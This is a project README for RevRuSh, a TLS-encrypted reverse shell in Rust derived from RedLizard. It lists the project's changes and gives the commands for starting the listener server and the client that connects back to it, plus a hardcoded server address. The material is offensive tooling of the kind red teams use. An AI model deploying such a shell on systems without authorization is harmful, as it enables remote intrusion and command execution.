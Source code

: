 # RevRuSh - A sample reverse shell in Rust
### Based on https://github.com/trickster0/RedLizard


![Redlizard](screen.png)

#### Note
Since the original project, RedLizard, is not mantained anymore I decided to create a new indipendent project.

Many thanx to [trickster0](https://github.com/trickster0) 

#### Changes from the original project:
- Use native_tls instead of openssl, since openssl on windows it's a pain
- Client run both on windows and linux
- Client on linux execute command through bash
- The certificate (and the private key) is now embedded into the server as PFX file
- The client accept the server IP and port as parameter
- Adjusted the code to suppress warning
- Optimized command management: now you can pass parameter, e.g. ip a, ipconfig /all


#### Requirements:
- rustc & cargo 1.73.0
- on linux: OpenSSL 3.0.11 with libssl-dev installed
- pfx file must reside on src folder of the server
#### Advises
- [Generate certificate using OpenSSL](https://www.digitalocean.com/community/tutorials/openssl-essentials-working-with-ssl-certificates-private-keys-and-csrs)
- better run server on linux

#### Run the server
Pass the certificate password and the port. The server will listen to all the available IP4 interfaces:
```
./redlizard_server zinz 4443
```

#### Run the client
Pass the server:port as argument.
```
./redlizard_client.exe 192.168.1.10:4443
```

##### Hardcoded configuration on the client
If you cannot pass the server:port parameter to the client consider to change the following in client main file (around line 23):
```
 "127.0.0.1:4443".to_owned()
```


